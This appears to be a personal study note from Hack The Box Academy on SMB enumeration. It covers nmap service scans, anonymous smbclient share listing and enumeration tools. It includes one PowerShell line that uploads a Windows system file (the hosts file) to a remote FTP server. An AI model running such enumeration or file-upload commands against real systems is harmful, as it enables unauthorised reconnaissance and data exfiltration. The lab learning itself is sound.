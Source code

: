 smb
#####

Date: 2024-11-02 15:45

Status:

Description
***********

SMB (Server Message Block) Common port TCP/445 CIFS ( Common internet
file system) Unix derivative

SMB Version
**************

The version can be enumerated with:

.. code-block:: console

   sudo nmap 10.129.14.128 -sV -sC -p139,445

If more information is needed, there is a tool called
:ref:`rpcclient <rpcclient>`

Other useful tools for enumeration:

-  :ref:`smbmap`

-  :ref:`crackmapexec`

-  :ref:`enum4linux-ng`

smbclient
*********

Connecting to SMB server via the command line can be done with the
smbclient command.

Anonymous Authentication
****************************

Example: ( -L list server shares, -N for anonymous connection )

.. code-block:: console


   smbclient -N -L //10.129.14.128

Then connect to a share called notes with:

.. code-block:: console

   smbclient //10.129.14.28/notes

Simulating SMB with Python
****************************

There is a small package written in python that creates a simple SMB
service from impacket called
https://github.com/SecureAuthCorp/impacket/blob/master/examples/smbserver.py

From the Windows powershell you can use the builtin client to send
files:

.. code-block:: console


   PS C:\htb> (New-Object Net.WebClient).UploadFile('ftp://192.168.49.128/ftp-hosts', 'C:\Windows\System32\drivers\etc\hosts')

Enumerating SMB
****************

Example 1: Using a script scan

.. code-block:: console

   sudo nmap 10.129.14.13 -sV -sC -p139,445

References
****************
https://academy.hackthebox.com/module/24/section/160#questionsDiv
https://academy.hackthebox.com/module/112/section/1067
